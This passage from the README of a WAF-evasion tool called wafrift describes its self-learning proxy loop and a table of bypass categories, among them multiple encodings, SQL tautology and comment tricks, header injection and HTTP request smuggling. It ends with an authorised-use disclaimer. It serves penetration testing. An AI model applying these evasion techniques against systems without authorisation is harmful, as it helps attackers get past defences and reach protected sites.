    { "name": "encoding::HtmlEntityEncode", "total_successes": 13, "total_attempts": 13 },
    { "name": "tautology_swap", "total_successes": 56, "total_attempts": 56 }
  ],
  "targets_scanned": 3
}
```

Next time you scan a Cloudflare site, these techniques load automatically.

## Proxy Feedback Loop

The proxy continuously learns:

```
Request → evade() → forward → observe 200/403
                ↑                       |
                └── feedback loop ──────┘

Discovery → Rotation → Drift Detection → Re-Discovery
```

- **Discovery**: try all techniques, track success/failure rates
- **Rotation**: once ≥60% winners found, only use those (round-robin)
- **Drift**: if a winner gets blocked 2× consecutively, evict it
- **Re-discovery**: if all winners evicted, clean slate and restart

## Evasion Techniques

| Category | Techniques |
|----------|-----------|
| **Encoding** | URL, Double-URL, Triple-URL, Unicode, IIS Unicode, HTML entity, Hex, Base64, UTF-7, Overlong UTF-8, Chunked split, Parameter pollution, Null byte |
| **Grammar** | Tautology swap, keyword-free arithmetic, comment insertion, whitespace variation, keyword casing, string splitting, hex literals, dialect-specific (MySQL/PG/MSSQL/Oracle/SQLite) |
| **Content-Type** | JSON body, XML body, multipart form-data switching |
| **Headers** | Case mixing, header injection, duplicate headers, HPP |
| **Fingerprint** | User-Agent rotation, TLS fingerprint, Accept-Language |
| **Smuggling** | CL.TE, TE.CL, HTTP/2 mixed-case headers, H2 pseudo-header abuse |

## Parity roadmap (proxy, TLS, origin, egress)

See [docs/GAP_CLOSURE_ROADMAP.md](docs/GAP_CLOSURE_ROADMAP.md) for phased work toward EvilWAF-class workflows (HTTPS MITM, JA3 parity, recon). Supporting docs: [docs/PROXY_TOOLING.md](docs/PROXY_TOOLING.md), [docs/TLS_PARITY.md](docs/TLS_PARITY.md).

## License

Licensed under either of

- Apache License, Version 2.0 ([LICENSE-APACHE](LICENSE-APACHE) or <http://www.apache.org/licenses/LICENSE-2.0>)
- MIT license ([LICENSE-MIT](LICENSE-MIT) or <https://opensource.org/licenses/MIT>)

at your option.

### Contribution

Unless you explicitly state otherwise, any contribution intentionally submitted for inclusion in the work by you, as defined in the Apache-2.0 license, shall be dual licensed as above, without any additional terms or conditions.

## Lawful Use & Repository Responsibility

wafrift is dual-use security research software. It implements WAF
evasion techniques that, executed against systems you do not own or
have written authorisation to test, may violate computer-misuse law
(CFAA in the United States, Computer Misuse Act in the United Kingdom,
StGB §202c in Germany, equivalent statutes elsewhere). By downloading,
building, or running wafrift you agree:

1. **Authorisation is yours alone.** You will only run wafrift against
   systems you own, operate, or have explicit written authorisation to
   test: bug-bounty scope, signed pentest agreement, CTF rules, or
   lab infrastructure under your control. Verify scope before each
   engagement.
2. **Legal responsibility transfers to the operator.** The Santh
   Security maintainers, contributors, and the project itself accept
   no liability for traffic generated by, damages caused by, or legal
   exposure resulting from your use of the tool.
3. **Unauthorised use is out of scope of any support.** We will not
   help users bypass WAFs protecting systems they have no authorisation
   to interact with. Reports of misuse may be forwarded to the affected
   organisation's `abuse@` / legal channels.

Full clause and reporting workflow in [`SECURITY.md`](./SECURITY.md#lawful-use--repository-responsibility) and [`CODE_OF_CONDUCT.md`](./CODE_OF_CONDUCT.md#lawful-use--repository-responsibility).
